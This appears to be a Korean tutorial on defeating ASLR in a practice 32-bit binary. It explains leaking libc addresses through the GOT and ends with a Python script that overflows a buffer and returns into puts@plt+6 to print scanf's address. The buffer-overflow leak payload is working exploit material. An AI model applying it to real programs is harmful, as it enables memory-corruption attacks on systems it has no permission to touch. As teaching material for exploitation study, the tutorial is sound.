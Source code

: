 1. system 함수의 주소와 "/bin/sh" 문자열의 주소 찾기

-> 프로그램은 실행될 때마다 라이브러리 주소가 랜덤하게 매핑된다. 그러나 한 번 매핑된 라이브러리 주소는 프로그램이 종료될 때까지 바뀌지 않는다. 이를 이용하여 주소를 찾을 수 있다.

#### Leaking libc-2.23.so Address

- 앞서 라이브러리 함수를 사용하고 나면, GOT에 해당 함수의 주소가 저장된다는 것을 배웠다. 바이너리에 존재하는  puts 함수의 PLT를 이용해 scanf의 GOT에 있는 scanf 함수의 실제 주소를 출력해보자.

![image](https://user-images.githubusercontent.com/59410565/119140383-0b695f00-ba7f-11eb-9078-1db58b429a08.png)

- puts@plt : 0x8048320
- scanf@plt에서 참조하는 주소 0x804a014가 scanf@got.plt 이다.
- 공격 코드를 만들기 전에 scanf에서 "%s" 포맷 스트링이 공백이나 개행 등 단어를 구분하는 문자를 입력하면 더 이상 입력을 받지 않는다는 것을 주의해야 한다.

-> puts@plt 주소는 공백 문자로 시작하기 때문에 공격 코드에 사용하지 x

-> puts@plt+6으로 점프해도 puts@plt를 호출한 것과 같은 결과. 따라서 공격 코드에서는 입력의 종료를 방지하기 위해 0x8048326을 사용한다.

- scanf의 GOT 주소에 저장된 값을 출력해 보자.

![image](https://user-images.githubusercontent.com/59410565/119141646-7a938300-ba80-11eb-8cae-f98e7f238237.png)

- scanf 함수 주소에 아스키 범위를 넘어선 문자가 존재하기 때문에 불가하다.
- 동적으로 변화하는 아스키 범위 밖의 문자를 읽기 위해 공격 코드를 스크립트로 작성할 필요가 있다.

```python
#!/usr/bin/python2.7
'''
example4_leak.py
'''
import struct
import subprocess
import os
import pty
def readline(fd):
  res = ''
  try:
    while True:
      ch = os.read(fd, 1)
      res += ch
      if ch == '\n':
        return res
  except:
    raise
def writeline(proc, data):
  try:
    proc.stdin.write(data + '\n')
  except:
    raise
def p32(val):
  return struct.pack("<I", val)
def u32(data):
  return struct.unpack("<I", data)[0]
out_r, out_w = pty.openpty()
s = subprocess.Popen("./example4", stdin=subprocess.PIPE, stdout=out_w)
print `readline(out_r)`     # Hello World!\n
print `readline(out_r)`     # Hello ASLR!\n
payload  = "A"*36           # buf padding
payload += p32(0x8048326)   # ret addr (puts@plt + 6)
payload += p32(0xdeadbeef)  # ret after puts
payload += p32(0x804a014)   # scanf@got
writeline(s, payload)
out = readline(out_r)     # memory leakage of scanf@got
print `out`
scanf_addr = u32(out[:4])
```